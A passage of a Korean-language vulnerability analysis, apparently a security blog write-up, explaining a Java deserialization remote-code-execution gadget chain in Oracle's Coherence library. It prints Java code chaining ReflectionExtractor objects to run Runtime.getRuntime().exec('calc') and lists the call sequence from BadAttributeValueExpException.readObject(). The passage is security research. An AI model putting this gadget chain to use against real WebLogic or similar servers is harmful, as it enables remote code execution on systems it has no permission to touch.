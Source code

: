 
따라서 이를 체이닝하여 아래와 같이 원하는 코드를 실행(RCE)할 수 있게 되었습니다.

- Runtime.getRuntime().exec("calc")

```java
// Runtime.class.getRuntime()
ReflectionExtractor extractor1 = new ReflectionExtractor(
    "getMethod",
    new Object[]{"getRuntime", new Class[0]}

);

// get invoke() to execute exec()
ReflectionExtractor extractor2 = new ReflectionExtractor(
    "invoke",
    new Object[]{null, new Object[0]}

);

// invoke("exec","calc")
ReflectionExtractor extractor3 = new ReflectionExtractor(
    "exec",
    new Object[]{new String[]{"calc"}}
);

ReflectionExtractor[] extractors = {
    extractor1,
    extractor2,
    extractor3,
};

ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
```

- 위 단계를 순서대로 나열하면 아래와 같이 나타낼 수 있습니다.
1. BadAttributeValueExpException.readObject()
2. com.tangosol.util.filter.LimitFilter.toString() - extract() 호출(chainedExtractor Reflection 및 limitFilter 객체 할당)
3. com.tangosol.util.extractor.ChainedExtractor.extract() - Loop(3)
4. com.tangosol.util.extractor.ReflectionExtractor.extract() - [getMethod("getRuntime"), invoke(), exec("calc")]
5. Method.invoke()
...
6. Runtime.getRuntime.exec()

### Expanded attack surface: Oracle Business Intelligence

- 또한 앞서 언급했듰이, 해당 취약점은 Coherence library에서 발생하기 때문에 해당 라이브러리를 사용하는 웹 어플리케이션 서버(WebLogic, Glassfish, Hibernate, Spring 등) 및 내장된 어플리케이션에서도 발생할 수 있기 때문에 공격 가능한 범위가 확장 되었습니다.

## Exploit
